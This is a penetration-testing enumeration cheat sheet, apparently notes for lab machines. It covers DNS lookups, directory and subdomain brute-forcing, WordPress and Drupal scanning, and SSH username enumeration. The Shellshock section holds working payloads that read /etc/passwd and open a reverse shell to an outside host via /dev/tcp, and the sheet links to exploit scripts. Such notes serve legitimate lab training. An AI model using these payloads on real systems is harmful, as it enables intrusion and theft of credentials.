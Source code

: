 # Enumeration

<details>

<summary>Reverse Lookup IP addresses to hostnames</summary>

### Using nslookup

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
;; communications error to 10.10.10.13#53: timed out
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

### Obtain IPs of machines that are up:

* save as `ips.txt`

```bash
nmap -sn --min-rate 5000 10.11.1.0/24 | grep "Nmap scan report for" | cut -d " " -f 5 > ips.txt
```

### Find possible DNS servers

```bash
nmap -p 53 --min-rate 5000 -iL ips.txt -oG dns_scan_results.txt
```

```bash
cat dns_scan_results.txt | grep "Ports: 53/open/" | cut -d " " -f 2 > dns_servers.txt
```

### Using DNSrecon to reverse lookup using different DNS servers:

```bash
for server in $(cat dns_servers.txt); do echo Using DNS server $server;dnsrecon -r 10.11.1.0/24 -n $server; done
```

### Reverse DNS lookup for one IP:

#### DNSRecon

```bash
dnsrecon -r 10.11.1.0/24 -n 10.11.1.220
```

#### Host command

```bash
host 10.11.1.116 10.11.1.220 
```

* Query dns server at 10.11.1.220 about the hostname of 10.11.1.116

</details>

<details>

<summary>Sitemap files</summary>

* /robots.txt

<!---->

* /.htaccess

<!---->

* /.htpasswd

<!---->

* /sitemap.xml

</details>

<details>

<summary>Try /cgi-bin/ folder (Shellshock)</summary>

* If Status Code 200 --> possibly [shellshock](https://github.com/b4keSn4ke/CVE-2014-6271)
* If Status Code 403 --> try to enumerate `.sh`, `.cgi` files under `/cgi-bin/` directory

```bash
dirsearch -u http://10.11.1.71/cgi-bin -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt
```

* Commands for Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh
```

* Burp Shellshock POST Request

```bash
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
Content-Length: 28

page=%2F&user=root&pass=root
```

* Nmap scan to search for shellshock

```bash
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```

broken by default, fix here: [https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s](https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s)

</details>

<details>

<summary>Dirsearch</summary>

<pre class="language-shell"><code class="lang-shell"><strong>dirsearch -u &#x3C;ip> -X -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
</strong></code></pre>

```shell
dirsearch -u 172.16.64.140/project --auth-type=basic --auth=YWRtaW46YWRtaW4= -X -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
dirsearch -u http://192.168.206.156:8000/ipphone_files --cookie="PHPSESSID=cjetu00a7pouinp0oj9v01r6r0" -X -i 200,301 -r -f -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

</details>

<details>

<summary>Subdomain Enumeration</summary>

```bash
ffuf -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw <no. of words for default page>
```

Can try wordlist`/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`

* Add any subdomain you've found into `/etc/hosts`

```
10.10.57.54 dev.cmess.htm
```

</details>

<details>

<summary>Wpscan</summary>

```bash
wpscan --url somewebsite.com --enumerate u,ap,at,cb,dbe
```

* add in `--disable-tls-checks` for HTTPS sites

</details>

<details>

<summary>Droopescan (Drupal)</summary>

```bash
droopescan scan drupal -u http://10.10.10.9/ -t 32
```

Drupal 7 <= 7.57

* [https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

</details>

<details>

<summary>Gobuster</summary>

```shell
gobuster dir -u <target site> -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200 -q
```

```shell
gobuster dir -x php,txt -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 200 -q
```

```
gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
```

```bash
gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -t 20
```

### Enumerate API (often followed by version number, v1, v2)

```bash
#api --> often followed by a version number
#	/api_name/v1
#	/api_name/v2
#pattern file:
#	{GOBUSTER}/v1
#	{GOBUSTER}/v2
gobuster dir -u http://192.168.50.16:5002 -w 
```

</details>

<details>

<summary>Testing file extensions for IIS servers</summary>

```
asp
aspx
config
php
```

</details>

<details>

<summary>Wfuzz</summary>

```bash
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

```
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
```

#### Post req:

```bash
wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)
```

#### Fuzzing cookies:

```bash
wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ
```

</details>

<details>

<summary>Perform Zone Transfer</summary>

* Scan a domain, specifying the nameserver and performing a zone transfer

```bash
dnsrecon --domain example.com --name_server nameserver.example.com --type axfr
```

</details>

<details>

<summary>Dig</summary>

### Zone Transfer

```bash
dig @192.168.194.165 AXFR heist.offsec
```

```bash
dig www.example.com + short
```

* For IPv4

```bash
dig -4 www.example.com 
```

```bash
dig www.example.com MX
```

```bash
dig www.example.com NS
```

```bash
dig www.example.com> SOA
```

</details>

<details>

<summary>DNSEnum</summary>

```bash
dnsenum 192.168.194.165
```

</details>

<details>

<summary>SSH Username Enum</summary>

* Linux with OpenSSH < 7.7

[https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py](https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py)

```
python ssh-username-enum.py <IP> -w <wordlist>
```

* Wordlist: [https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt](https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt)

</details>
